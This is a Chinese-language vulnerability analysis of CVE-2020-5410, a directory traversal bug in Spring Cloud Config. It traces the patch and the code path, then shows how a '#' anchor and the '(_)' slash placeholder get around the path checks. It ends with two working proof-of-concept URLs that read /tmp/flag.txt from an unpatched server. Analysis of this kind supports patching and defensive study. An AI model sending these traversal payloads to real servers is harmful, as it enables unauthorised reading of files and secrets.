 # （CVE-2020-5410）Spring Cloud Config 目录穿越漏洞

## 一、漏洞简介

Spring Cloud Config，2.2.3之前的2.2.x版本，2.1.9之前的2.1.x版本以及较旧的不受支持的版本允许应用程序通过spring-cloud-config-server模块提供任意配置文件。恶意用户或攻击者可以使用特制URL发送请求，这可能导致目录遍历攻击。

## 二、漏洞影响

Spring Cloud Config，2.2.3之前的2.2.x版本，2.1.9之前的2.1.x版本

## 三、复现过程

### 漏洞分析

这次补丁主要是两个部分,第一个部分是将对路径的检测方法单独的封装了出来,封装到了PathUtils类中,并且做了部分的修改,其中最主要的是检测了`#`,至于是为什么,后面来说。

![1.png](images/2020_06_25/052e2cd965804b79a8ca162fb19f06a0.png)

第二部分,也就是漏洞的触发入口，在environment/EnvironmentController.java中,增加了对name、label字段的检测

![2.png](images/2020_06_25/0b1f3cdc840140febdfd9e49fe690dfb.png)

通过补丁我们可以大概知道漏洞应该是出在EnvironmentController,但是具体怎么触发并不知道,所以我们需要跟一遍正常逻辑看一下处理流程。
既然是目录穿越漏洞,我们先通过环境变量设置本地读取

```
profiles:
    active: native
  cloud:
    config:
      server:
        native:
          search-locations:
            - file:/test/config-repo-master

```

然后使用正确的请求来动态跟踪调用堆栈`http://www.baidu.com:8889/111/222/333`,将断点打在入口处,然后往下跟

![3.png](images/2020_06_25/c21512ee8d924eb3b56736fa1060c004.png)

在跟到`environment/NativeEnvironmentRepository.java`的时候发现参数进行了拼接,

![4.png](images/2020_06_25/94293eec5bdc4e6086ade916d1577504.png)

重新跟进getArgs看一下

```
private String[] getArgs(String application, String profile, String label) {
        List<String> list = new ArrayList<String>();
        String config = application;
        if (!config.startsWith("application")) {
            config = "application," + config;
        }
        list.add("--spring.config.name=" + config);
        list.add("--spring.cloud.bootstrap.enabled=false");
        list.add("--encrypt.failOnError=" + this.failOnError);
        list.add("--spring.config.location=" + StringUtils.arrayToCommaDelimitedString(
                getLocations(application, profile, label).getLocations()));
        return list.toArray(new String[0]);
    }

```

主要在getLocations中对路径进行了下拼接,声称了一个将env中的uri拼接了label,生成新的location,那么这个点就是我们目录穿越的关键,继续往下跟,在`environment/NativeEnvironmentRepository.java`中会将args传入spring boot的`ConfigurableApplicationContext context = builder.run(args)`,后面会使用loader.load函数加载资源,在加载资源的时候会遍历locations拼接name来获取资源,首先来判断是否存在文件,如果文件存在,则去使用url.openConnection来获取资源,通过分析我们知道label和name是我们可控的传入,

```
url = env-uri+label+name+extension

```

因为是借助的url.openConnection,结合补丁增加了`#`限制,我们可以清楚的知道通过在name中以`#`结尾,使extension成为锚点,也就绕过了后缀的限制。
在构造poc之前其实还有一个问题，就是这里我们知道一开始是没有对路径进行检测的,那么我们是否可以直接使用`../../`来穿越呢?答案是否,因为如果我们想要传入后端处理,必须二次url编码,但是二次编码后,首先经过的是判断文件是否存在,如果存在才调用url.openConnection来处理,经过一次解码后,显然该路径文件是不存在的。

![5.png](images/2020_06_25/edd126edb5414ebea5f64997f8760cb4.png)

这里就有了跟CVE-2020-5405一样的操作,将`(_)`替换成了`/`,处理方法在

```
public static String normalize(String s) {
        if (s != null && s.contains(SLASH_PLACEHOLDER)) {
            // "(_)" is uncommon in a git repo name, but "/" cannot be matched
            // by Spring MVC
            return s.replace(SLASH_PLACEHOLDER, "/");
        }
        return s;
    }

```

### poc

```
http://www.baidu.com:8889/flag.txt%23/222/..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29tmp%28_%29

```

![6.png](images/2020_06_25/c82b09600ba448bd9c676416acc287bf.png)

构造完这个poc会想到,既然是label+name来拼接的,我们是否可以不用管label,目录穿越的方法在name处构造呢?

答案是可以的,poc如下

```
http://www.baidu.com:8889/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Ftmp%252Fflag.txt%23/222/11

```

![7.png](images/2020_06_25/02a4c830d6d347f9b3788f.png)

